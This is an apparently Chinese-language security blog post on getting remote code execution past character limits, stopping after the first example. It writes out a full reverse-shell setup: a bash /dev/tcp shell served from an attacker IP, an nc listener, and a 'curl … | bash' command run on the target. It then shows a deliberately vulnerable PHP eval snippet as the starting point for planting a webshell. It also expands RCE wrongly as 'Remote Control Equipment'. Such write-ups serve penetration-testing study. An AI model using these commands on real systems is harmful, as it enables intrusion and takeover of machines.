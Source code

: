 ```yaml
---
 layout:   post        # 使用的布局（不需要改）
 title:   RCE字符限制总结   # 标题 
 subtitle:   #副标题
 date:    2020-08-23    # 时间
 author:   yanmie       # 作者
 header-img: img/.jpg  ##标签这篇文章标题背景图片
 catalog: true            # 是否归档
 tags:                
    - bypass

---
```



## RCE

RCE全称Remote Control Equipment 即远端控制设备.

## 准备

要想实现远端控制设备，就必须时两台机器进行通信，于是我们在本地开启了http服务，并且在主页面写个bash命令，这时只用在靶机上执行curl命令即可实现RCE了，当然还有很多其他的方法。

本机index.php

	bash -i >& /dev/tcp/192.168.65.57/12345 0>&1

nc监听端口

	nc -lvnp 12345

靶机执行

	curl 192.168.65.57|bash

![dMVdxA.png](https://s1.ax1x.com/2020/08/18/dMVdxA.png)

![dMZSZ6.png](https://s1.ax1x.com/2020/08/18/dMZSZ6.png)

可以看到拿到了权限.

## eval长度限制突破技巧

#### 16字符

**PHP Eval函数参数限制在16个字符的情况下
，如何拿到Webshell？**

```
<?php
$param = $_REQUEST['param'];
if(strlen($param)<17 && stripos($param,'eval') === false && stripos($param,'assert') === false) {
  eval($param);
}
?>
```
